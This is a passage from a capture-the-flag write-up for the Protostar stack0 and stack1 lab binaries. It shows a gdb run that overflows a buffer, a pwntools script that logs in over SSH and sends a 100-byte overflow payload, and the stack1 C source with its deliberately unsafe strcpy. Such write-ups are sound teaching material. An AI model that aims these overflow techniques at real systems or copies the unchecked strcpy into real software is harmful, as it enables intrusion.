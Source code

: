 So now i only have to send it
```bash
(gdb) r
Starting program: /opt/protostar/bin/stack0 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
you have changed the 'modified' variable

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
```

For solving this you don't need to open it on gdb.


You can script this with pwntools to connect it over ssh and send the payload.
It would look like this:

```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)

payload = b'a'*100
p = s.run(['/opt/protostar/bin/stack0'])
p.sendline(payload)
p.interactive()
```

<br/>

## Stack 1

Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
\
So i have to overflow variable and write 0x61626364